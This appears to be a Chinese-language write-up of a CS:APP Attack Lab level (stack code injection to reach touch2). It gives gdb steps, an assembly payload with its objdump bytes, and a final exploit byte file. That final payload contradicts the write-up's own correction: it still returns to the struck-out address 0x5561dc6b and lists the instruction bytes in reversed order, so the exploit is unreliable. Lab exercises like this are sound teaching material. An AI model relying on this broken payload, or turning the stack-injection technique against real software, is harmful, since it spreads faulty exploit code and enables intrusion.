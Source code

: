 在调用call之前查看rsp的值:`0x5561dc78`

```bash
(gdb) print $rsp
$1 = (void *) 0x5561dc78
```

获取到可以注入漏洞代码的地址后，~~我们可以将最后的ret指令放在0x5561dc78位置，然后补充这个漏洞代码~~。（这里勘误：因为漏洞代码的执行顺序是从低地址到高地址的方向，栈空间是从高地址向着低地址生长。而顶位置正是地址较小的位置，所以栈顶位置`0x5561dc78`从头开始放漏洞代码即可）

获取touch2的地址：`0x4017ec`

```bash
(gdb) b touch2
Breakpoint 4 at 0x4017ec: file visible.c, line 40.
```

漏洞代码`p2.s`：

```assembly
movq $0x59b997fa,%rdi
pushq $0x4017ec
ret
```

获取漏洞代码的字节表示：

```bash
unix> gcc -c p2.s
unix> objdump -d p2.o > p2.d
```

`p2.d`内容：

```assembly
  1
  2 p2.o:     file format elf64-x86-64
  3
  4
  5 Disassembly of section .text:
  6
  7 0000000000000000 <.text>:
  8    0: 48 c7 c7 fa 97 b9 59  mov    $0x59b997fa,%rdi
  9    7: 68 ec 17 40 00        push   $0x4017ec
 10    c: c3                    ret
~

```

~~可以看出这段代码占的空间为13字节，所以漏洞代码的执行地址应该是栈顶地址`0x5561dc78`减去`0xd`，即为`0x5561dc6b`。~~

数据构造：根据小端存储的特性，应该将输入的字节数据中，漏洞代码放在前面，从而存储在栈顶位置；而要被替换的返回地址要在后面存储，从而存储在栈底位置。按照这样构造逻辑，可以实现`exploit2.txt`

```tex
c3 00 40 17 ec 68 59 b9
97 fa c7 c7 48 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
6b dc 61 55 00 00 00 00
```
